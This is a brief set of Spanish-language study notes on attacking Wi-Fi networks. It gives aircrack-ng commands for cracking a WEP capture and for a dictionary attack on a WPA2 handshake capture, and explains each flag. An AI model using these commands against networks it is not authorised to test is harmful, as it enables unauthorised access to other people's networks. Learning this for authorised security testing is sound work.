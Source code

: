 # Ataques a redes Wifi 

Tags: #Hacking #Wifi 

## WEP

```bash 
# Kali Tool
❯ aircrack-ng 'WEPcrack-01.cap'      # Si se obtiene un archivo con el 'Handshake' se puede obtener la passwd 
```

## WPA2

```bash 
# Kali Tool
❯ aircrack-ng -a2 -b Target_BSSID -w /home/kali/Desktop/Wordlist/password.txt 'WPA2crack-01.cap'

	# a = Es la técnica '2=WPA'
	# b = BSSID es la MAC Address del access point
	# w = Diccionario de contraseñas 
```